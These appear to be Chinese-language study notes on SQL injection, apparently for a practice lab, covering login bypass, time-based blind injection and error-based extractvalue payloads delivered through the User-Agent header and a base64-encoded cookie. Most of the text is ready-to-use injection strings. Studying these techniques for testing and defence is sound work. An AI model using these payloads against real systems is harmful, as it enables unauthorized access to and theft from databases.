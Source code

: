 猜闭合方式

‘ or 1=1 #

用户名和密码都写!!!!
‘ or ‘1’ = ‘1

```
select username,password from table1 where username='' or '1'='1
' and password='' or '1'='1' limit 0,1;

admin' and if(ascii(substr(database(),1,1))=115,sleep(5),null) #
```

------

## http头注入

### user-agent

猜测源码：

```
insert into 'security'.'某个表'(uagent,ipadd,username) values('浏览器信息','ip地址','用户名')
```

使用\ 判断单引号闭合

```
'  and '1'='1
and extractvalue(1,concat(0x7e,(select database()),0x7e))
insert into 'security'.'某个表'(uagent,ipadd,username) values('' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1','ip地址','用户名')
```

------

### referer

来路流量（你是从哪个地方来的）

------

### cookie

admin’ and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

cookie进行base64编码的

输入攻击语句之后，转化为base64encode即可
admin’) and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
编码之后
YWRtaW4nKSBhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBkYXRhYmFzZSgpKSwweDdlKSkgIw==

------

## 防火墙
